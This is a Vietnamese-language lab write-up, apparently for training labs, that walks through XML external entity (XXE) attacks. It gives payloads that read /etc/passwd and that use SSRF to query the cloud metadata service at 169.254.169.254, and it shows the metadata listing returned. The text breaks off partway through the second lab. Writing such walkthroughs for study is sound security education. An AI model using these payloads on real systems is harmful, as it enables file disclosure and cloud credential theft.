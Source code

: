 
- ![image](https://hackmd.io/_uploads/SkrE1K2na.png)

- Bây giờ chúng ta sẽ khai báo 1 DTD để khi parse sever sẽ load thêm Entity và chúng ta khai báo và gán giá trị

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>1</productId><storeId>&xxe;</storeId></stockCheck>

```

- có thể hiểu ở đây chúng ta khai báo DTD test và trong đó có 1 entity xxe gán giá trị là nội dung của file etc/passwd hay nói cách khác là thực thể này sử dụng hệ thống file để truy cập vào tệp /etc/passwd trên hệ thống mục tiêu. thì khi đó để lấy được giá trị này ta sẽ lấy là storeId &xxe; để hiển thị kết quả.
- Và 3 2 1 bùm:
- Chúng ta đã nhận được kết quả mặc dù sever thông báo lỗi productID, hihi có vẻ check này khá là lỏng lẻo
- ![image](https://hackmd.io/_uploads/H11Kgt2hp.png)

- Và mình đã solve được bài lab này.
![image](https://hackmd.io/_uploads/SyQ3eK3ha.png)


## [Exploiting XXE to perform SSRF attacks](https://)

- Theo đề bài của bài này thì mình đoán là chúng ta sẽ lợi dụng việc parse của sever để thực hiện 1 thao tác nào đó trong nội bộ.
- Và thêm một gợi ý của đề bài nữa là:
- ![image](https://hackmd.io/_uploads/Sk45bth2T.png)
- thì đây là endpoint chứa dư liệu như là phiên bản và trong đó chắc chắn có dữ liệu nhạy cảm :> vậy nên ta sẽ SSRF ở chỗ này
- Chức năng và cách thức load cũng giống y hệt như bài ở trên nên mình sẽ bắt request luôn

- đầu tiên em sẽ sử dụng payload:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>
<stockCheck><productId>&xxe;</productId><storeId>
1</storeId></stockCheck>
```

- Đoạn này em sẽ khai báo 1 DTD và trong đó chứa một entity xxe sẽ lấy giá trị trong http://169.254.169.254/ của hệ thống và nhận thấy sever sẽ trả ra giá trị ở producId cho chúng ta biết nên em sẽ dùng `&xxe;` để lấy giá trị của nó
- ![image](https://hackmd.io/_uploads/HkUjQFhnp.png)
- Như chúng ta có thể thấy là sever báo lỗi không đúng productId và hiển thị thêm latest thì có vẻ đây chưa phải là điểm cuối của endpoint này
- Chúng ta search thêm thì tìm được 
- ![image](https://hackmd.io/_uploads/By_E4Yh2p.png)
- Nên bây giờ thêm `latest/meta-data/` vào điểm cuối

```
ami-id
ami-launch-index
ami-manifest-path
block-device-mapping/
events/
hostname
iam/
instance-action
instance-id
instance-life-cycle
instance-type
local-hostname
local-ipv4
```